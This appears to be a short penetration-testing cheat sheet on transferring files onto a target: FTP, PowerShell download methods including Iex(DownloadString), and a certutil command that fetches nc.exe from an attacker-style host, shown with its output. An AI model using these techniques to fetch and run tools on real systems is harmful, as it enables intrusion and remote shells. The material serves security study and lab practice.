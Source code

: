 # File Transfers

## File Transfer Protocol
FTP listener
```
python -m pyftpdlib 21
```
FTP client
```
ftp 10.0.2.12
```

## PowerShell
Iex(DownloadString)

DownloadFile
```
$url = "https://example.com/file.zip"
$destination = "C:\Downloads\file.zip"

(New-Object System.Net.WebClient).DownloadFile($url, $destination)
```

Invoke-WebRequest

## certutil
Example:
```
certutil -urlcache -f http://10.10.14.19:8080/nc.exe nc.exe
```
Example output:
```
C:\temp> certutil -urlcache -f http://10.10.14.19:8080/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\temp> dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\temp

01/26/2025  05:30 PM    <DIR>          .
01/26/2025  05:30 PM    <DIR>          ..
01/26/2025  05:30 PM            28,160 nc.exe
               1 File(s)         28,160 bytes
               2 Dir(s)  13,890,064,384 bytes free

C:\temp> 
```
